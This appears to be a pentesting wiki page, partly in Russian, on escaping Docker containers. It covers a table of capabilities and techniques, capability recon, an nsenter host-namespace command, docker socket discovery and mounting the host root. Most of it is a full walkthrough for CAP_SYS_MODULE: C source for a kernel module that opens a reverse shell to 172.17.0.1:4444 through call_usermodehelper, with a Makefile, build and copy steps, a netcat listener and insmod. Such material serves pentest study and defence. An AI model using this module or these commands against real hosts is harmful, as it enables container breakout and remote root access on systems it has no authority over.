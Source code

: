 # Docker Escape

{% embed url="http://itsecwiki.org/index.php/Docker_escape" %}

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

| **ID** | **Techniques Name**              | **Minimal Linux Capabilities**   |
| ------ | -------------------------------- | -------------------------------- |
| 1      | Mount the host filesystem        | SYS\_ADMIN                       |
| 2      | Use a mounted docker socket      | No capability is required        |
| 3      | Process Injection                | SYS\_PTRACE                      |
| 4      | Adding a malicious kernel module | SYS\_MODULE                      |
| 5      | Reading secrets from the host    | DAC\_READ\_SEARCH                |
| 6      | Overriding files on host         | DAC\_READ\_SEARCH, DAC\_OVERRIDE |
| 7      | Abusing notify on release        | SYS\_ADMIN, DAC\_OVERRIDE        |

### Recon <a href="#privileged--hostpid" id="privileged--hostpid"></a>

Once we are in the container, we can perform capability discovery to determine which privileges are allowed in the container. The container capabilities can be viewed by reading the content of the main container process (PID = 1) status from within the container:&#x20;

```bash
root@2416b7f009ee:/proc grep Cap /proc/1/status
CapInh: 00000000a80425fb
CapPrm: 00000000a80425fb
CapEff: 00000000a80425fb
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000
```

* `CapInh` — Inheritable capabilities (разрешения, которые могут наследовать потомки).
* `CapPrm` — Permitted capabilities (разрешения, которые могут использоваться задачей).
* `CapEff` — Effective capabilities (текущие действующие разрешения).
* `CapBnd` — Bounding capabilities (ограничивающие привилегии. _до Linux 2.6.25 ограничивающий набор был общесистемным атрибутом, общим для всех потоков, предназначенным для описания набора, за пределы которого разрешения расширяться не могут. В настоящее время это набор для каждой задачи и является лишь частью логики execve_).
* `CapAmb` — Ambient capabilities (окружающие привилегии. добавлены, чтобы легче предоставлять разрешения не-root пользователю, без использования setuid или файловых разрешений).

**Decode**:

```bash
capsh --decode=00000000a80425fb
```

### Privileged + hostPID <a href="#privileged--hostpid" id="privileged--hostpid"></a>

With these permissions you can just **move to the namespace of a process running in the host as root** like init (pid:1) just running:&#x20;

`nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

### Docker socket

```sh
#default path to docker socket
ls -la /var/run/docker.sock

#search sockets
find / -name "*.sock"
```

### Arbitrary Mounts

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### Побег из контейнера используя CAP\_SYS\_MODULE

Создадим два файла: `reverse_shell.c` и `Makefile`

Содержимое файла `reverse_shell.c`:

```c
#include <linux/kmod.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
static char command[50] = "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1";
char* argv[] = {"/bin/bash","-c", command, NULL};
static char* envp[] = {"HOME=/",NULL};
static int __init connect_back_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit connect_back_exit(void){
printk(KERN_INFO "Exiting\n");
}
module_init(connect_back_init);
module_exit(connect_back_exit);

MODULE_LICENSE("GPL");
```

**Большое пояснение**&#x20;

_Данный модуль ядра вызывает программу пространства пользователя /bin/bash из ядра с помощью call\_usermodehelper. argv — это список аргументов в массиве. Первый элемент — это программа (/bin/bash), которое мы хотим выполнить, и за ней следует список аргументов. Последний элемент является терминатором NULL, который указывает на конец списка._

_envp — следующая необходимая переменная. Это массив окружения, представляющий собой список параметров, определяющий среду выполнения для приложения пользовательского пространства. В этом примере мы определили один параметр HOME для оболочки, и этот список заканчивается терминирующей записью NULL, как и argv._

_Последний аргумент call\_usermodehelper — UMH\_WAIT\_EXEC. Это необходимо для того, чтобы указать, что запрашивающий хочет дождаться запуска приложения пользовательского пространства, но не завершить его._

_Наконец, мы используем IP-адрес 172.17.0.1 в качестве IP-адреса прослушивателя, поэтому этот модуль попытается сделать обратное подключение к этому IP-адресу через порт 4444. Данный ip-адрес может отличаться, но в моем случае это 172.17.0.1. Проверить ваш ip-адрес интерфейса docker0 можно командой ip a или ifconfig docker0._

**Конец большого пояснения**

Содержимое `Makefile`:

```
test@test:~/revershell_module$ cat Makefile 
obj-m += reverse_shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Запустите команду make в репозитории, на выходе вы должны получить .ko файл.

Запустите контейнер с --privileged флагом в deteached режиме и скопируйте туда .ko файл:

```bash
docker run --privileged -itd alpine
test@test:~/revershell_module$ docker cp  reverse_shell.ko friendly_elion:.
Preparing to copy...
Copying to container - 32.77kB
Copying to container - 64.51kB
Successfully copied 64.51kB to friendly_elion:.
```

Запустите еще один терминал и начните прослушивание на порту 4444 с помощью утилиты netcat:

```bash
nc -lvp 4444 Listening on 0.0.0.0 4444
```

А теперь самое время загрузить наш модуль ядра внутри контейнера :)

```bash
insmod reverse_shell.ko
```

